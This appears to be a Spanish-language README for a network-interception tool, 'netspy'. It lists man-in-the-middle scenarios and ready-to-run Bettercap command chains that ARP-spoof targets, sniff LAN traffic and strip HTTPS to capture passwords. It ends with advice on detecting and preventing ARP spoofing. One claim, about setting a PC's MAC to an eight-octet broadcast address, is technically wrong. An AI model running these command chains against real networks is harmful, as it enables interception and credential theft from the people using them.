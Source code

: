 # Interceptacion Ethernet (MiTM)  de trafico LAN en claro:

### Estenarios:

## 1º.- Interceptación entre 2 dispositivos; 

Disponer de acceso a uno de los 2 dispositivos A ---//...B , e instalar, para interceptar el trafico de algun interfaces, en alguno de los extremos: Wireshark, dsniff, Smartsnif nifsoft, Bettercap, Ethercap, Extension navegador, netspy, tcpdump etc..

## 2º.- red LAN con HUB o switch "sin inteligencia"

Instalar un HUB en el medio de una red, por su modo de funcionamiento rebotan todos los pquete en todas las MAC y paquete Ethernet, par interceptación.

Instalar un PC conectado al HUB, con la  tarjeta  de red en modo promiscuo, que escuche todo el trafico de la red. Tener instalado Wireshark, netspy,etc

Modificar MAC Adrees de un PC conectado a la red, con la MAC Broadcast FF:FF:FF:FF:FF:FF:FF:FF que escurche todo el trafico de la red

## 3º.- En una red LAN con conmutadores Switch inteligente configurable :

Configurar port mirroning en el switch para que una copia de todo el trafico se encamine a una sola ethernet del switch, donde hay un PC en modo promiscuo con Wirehark, netspy, etc.. capturando 

En un PC conectado a la red instalar un Proxy, para hacer pasar, encaminar por el e interceptar el trafico!

En un PC conectado instala un Proxy trasparente. Usa ARP Spoofing, suplantación de MAC, para encaminar y poder ver e interceptar  el trafico de otros dispositivos!

## 4º.- Instalar  en: pasarelas, FW , routers, swithes, etc.. equipos en medio de las redes para interceptación: HUBS, switches port mirronig, proxyes, TAB .. 

<img style="float:left" alt="Escenarios interceptacion" src="https://github.com/hackingyseguridad/netspy/blob/master/MiTM.png">

** https://www.bettercap.org/ Beettercap combina ARP Spoofing y proxy trasparte

<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

## 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

## Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

## Uso.:

sh netspy

sh proxynetspy

netdiscover

IMPORTANTE: Para salir del modo de descubrimiento 'net probe on' y empezar a esnifar teclea 'exit'.

## Bettercap v2.9

Escanear toda la Red:

net.probe on; ticker on

Banear tarjet IP con ARP:

set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

Ver trafico web por proxy y extrae claves:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on; set http.proxy.sslstrip true

Ver trafico web por proxy y extrae claves de cifrados debiles:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on;  true; set http.proxy.port 80; set https.proxy.port 443; http.proxy on; https.proxy on; set http.proxy.sslstrip

Versiones antiguas Bettercap: 1.6.1 y 1.6.2 en Python

El ARP Spoofing, o envenenamiento ARP, es un tipo de ataque que puede comprometer seriamente la seguridad de una red local. Consiste en la manipulación de la MAC Addres y por tanto tabla ARP de un dispositivo para redirigir el tráfico de red hacia el atacante, permitiéndole interceptar y modificar la información que fluye por la red.
¿Cómo detectar un ataque de ARP Spoofing?
Este tipo de ataque suele ser silencioso y difícil de detectar a simple vista, es fundamental contar con herramientas y técnicas específicas. P.ej:

Herramientas de Detección:

•	Sistemas de detección de intrusiones (IDS): Un IDS bien configurado puede detectar anomalías en el tráfico de red, como un aumento repentino en el número de solicitudes ARP o respuestas ARP falsas.

•	Sniffers de paquetes: Herramientas como Wireshark te permiten analizar el tráfico de red en tiempo real. Al examinar los paquetes ARP, puedes identificar patrones inusuales o respuestas ARP falsas.

•	Herramientas especializadas: Existen herramientas diseñadas específicamente para detectar ARP Spoofing, como ARPwatch, que monitorea la tabla ARP y alerta sobre cambios inesperados.

Técnicas de Detección:
•	Problemas de conectividad: Dificultad para acceder a ciertos sitios web o servicios de red.
•	Monitoreo de la tabla ARP: Revisa regularmente la tabla ARP de los dispositivos de tu red para identificar entradas desconocidas o duplicadas.
•	Análisis de registros: Examina los registros del sistema y de las herramientas de seguridad para buscar cualquier indicio de actividad sospechosa, como intentos de acceso no autorizados o cambios en la configuración de la red.
•	Pruebas de penetración: Realiza pruebas de penetración periódicas para identificar vulnerabilidades en tu red y evaluar la efectividad de tus medidas de seguridad.
•	Uso de protocolos de seguridad: Implementa protocolos de seguridad como DHCP Snooping, IP Source Guard y Dynamic ARP Inspection (DAI), que pueden ayudar a prevenir y detectar ataques de ARP Spoofing.
Síntomas de un Ataque de ARP Spoofing:
Aunque no siempre son evidentes, algunos síntomas pueden indicar un ataque de ARP Spoofing:
•	Pérdida de paquetes: Interrupciones en la comunicación o lentitud en la red.
•	Actividad sospechosa en la red: Detección de tráfico no autorizado o intentos de acceso a recursos sensibles.
•	Cambios inesperados en la configuración de red: Modificaciones no autorizadas en la configuración de los dispositivos de red.

Prevención del ARP Spoofing:
•	Configuraciones estáticas: Establece entradas ARP estáticas para dispositivos críticos, como routers y servidores.  habilitar "client isolation",
•	Segmentación de redes: Divide tu red en segmentos más pequeños para limitar el impacto de un posible ataque.
•	Actualizaciones de software: Mantén todos tus dispositivos actualizados con los últimos parches de seguridad.
•	Educación de los usuarios: Sensibiliza a los usuarios sobre los riesgos de los ataques cibernéticos y cómo protegerse.
•	implementar nuevo ARP firmado con certificado y clave PKI

https://github.com/hackingyseguridad/mitm

www.hackingyseguridad.com
